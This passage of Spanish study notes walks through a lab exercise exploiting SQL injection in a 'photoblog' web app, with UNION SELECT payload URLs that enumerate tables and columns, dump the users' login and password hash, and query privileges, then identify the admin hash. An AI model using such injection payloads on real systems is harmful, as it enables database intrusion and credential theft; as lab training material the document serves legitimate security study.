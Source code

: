7. Tablas de photoblog

      - http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2Ctable_name%2CNULL%2CNULL+FROM+information_schema.tables+WHERE+table_schema%3D%27photoblog%27

        ![tablas](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/tablas.png)

8. Columnas

      - http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2Cconcat_ws(%27+:+%27+%2Ctable_name%2Ccolumn_name)%2CNULL%2CNULL+FROM+information_schema.columns+WHERE+table_schema%3D%27photoblog%27+AND+table_name%3D%27users%27

      ![columnas](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/columnas.png)

9. Datos de user:password

      - http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2Cconcat_ws(%27+:+%27+%2Cid%2Clogin%2Cpassword)%2CNULL%2CNULL+FROM+photoblog.users

      ![admin](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/admin.png)

10. Privilegios

	- http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2Cconcat_ws%28%27%7C+%27%2Cgrantee%2Ctable_schema%2Cprivilege_type%29%2CNULL%2CNULL+FROM+information_schema.schema_privileges
	- http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2Cconcat_ws%28%27%7C+%27%2Cgrantee%2Cprivilege_type%29%2CNULL%2CNULL+FROM+information_schema.user_privileges+WHERE+grantee+like+%27%25pentester%25%27
      

![](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/privilegios.png)

## Fase 4: Descifrado del password del usuario admin

1. Credenciales del admin: 
   - admin | 8efe310f9ab3efeae8d410a8e0166eb2
2. Usando google
3. Identificación con Hash-identifier

![hash_identifier](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/hash_identifier.png)

4. Identificación mediante el código.

   1. En el fichero /admin/login:

      ![login](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/login.png)

      

   2. En el fichero /admin/index:

         ![clases_login](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/clases_login.png)

   3. En el fichero clases/auth

         ![clases_auth](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/clases_auth.png)
